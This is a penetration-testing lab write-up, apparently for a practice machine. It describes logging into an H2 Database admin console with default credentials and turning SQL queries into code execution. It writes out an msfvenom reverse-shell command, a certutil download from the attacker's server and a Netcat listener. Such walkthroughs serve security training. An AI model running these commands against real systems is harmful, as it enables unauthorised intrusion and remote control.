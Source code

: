 ## Port 80 - HTTP (H2 Database)
Navigated to `http://192.168.182.66:80` and identified default page for `H2 Database Engine`
![[Cybersecurity-Resources/images/Pasted image 20241028212111.png]]
## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)

## Port 5040 - Unknown
## Port 8082 - H2
- Navigated to `http://192.168.194.66:8082` and identified `H2` login
![[Cybersecurity-Resources/images/Pasted image 20241029150929.png]]
- Attempted connection with default credentials `sa:` (No password) and accessed admin panel
![[Cybersecurity-Resources/images/Pasted image 20241029151022.png]]
- Ran SQL query `SELECT FILE_READ('C:\Windows\system.ini', NULL);` to test file read ability
![[Cybersecurity-Resources/images/Pasted image 20241029151354.png]]
 - ## Port 9092 - Unknown
- Navigated to `http://192.168.194.66:9092` and identified unknown service
![[Cybersecurity-Resources/images/Pasted image 20241029150455.png]]
- Saved page and displayed with correct encoding
![[Cybersecurity-Resources/images/Pasted image 20241029150806.png]]

---
# Exploitation
## SQL Injection
Ran `searchsploit "H2"` and identified exploit `49384.txt` to compile and run Java code on target for code execution
![[Cybersecurity-Resources/images/Pasted image 20241028215150.png]]
- Copied Java script from exploit into SQL statement and ran
![[Cybersecurity-Resources/images/Pasted image 20241029151723.png]]
- Copied native library script into SQL statement and ran
![[Cybersecurity-Resources/images/Pasted image 20241029151804.png]]
- Copied script evaluation into SQL statement and ran with command `whoami` to test - identified user `jacko/tony`
![[Cybersecurity-Resources/images/Pasted image 20241029151921.png]]
- Ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > revshell.exe` to create reverse shell executable
![[Cybersecurity-Resources/images/Pasted image 20241029152945.png]]
- Ran `python3 -m http.server 80` to offer `revshell.exe` on HTTP server
- Returned to SQL statement and edited command to `certutil -split -urlcache -f http://192.168.45.162/revshell.exe C:\\Users\\tony\\revshell2.exe` to copy reverse shell to user `tony`
![[Cybersecurity-Resources/images/Pasted image 20241029153124.png]]
- Started Netcat listener on port `4444`, and ran SQL statement with command `C:\\Users\\tony\\revshell2.exe` and received reverse shell 
![[Cybersecurity-Resources/images/Pasted image 20241029154139.png]]
---
# Lateral Movement to user